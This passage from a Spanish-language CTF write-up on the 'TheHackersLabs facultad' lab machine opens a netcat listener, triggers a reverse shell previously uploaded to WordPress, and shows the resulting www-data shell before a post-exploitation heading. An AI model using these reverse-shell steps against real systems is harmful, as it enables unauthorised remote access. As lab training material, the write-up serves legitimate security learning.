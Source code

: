 <p align="center">
<img src="/assets/images/THL-writeup-facultad/Captura12.png">
</p>

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```
Entra a la **Reverse Shell** que ya cargaste al **WordPress**.

Y observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.60] 43740
Linux TheHackersLabs-facultad.thl 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64 GNU/Linux
 22:29:35 up  1:10,  0 user,  load average: 0.00, 0.05, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (542): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-facultad:/$ whoami
whoami
www-data
```
Estamos dentro.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>
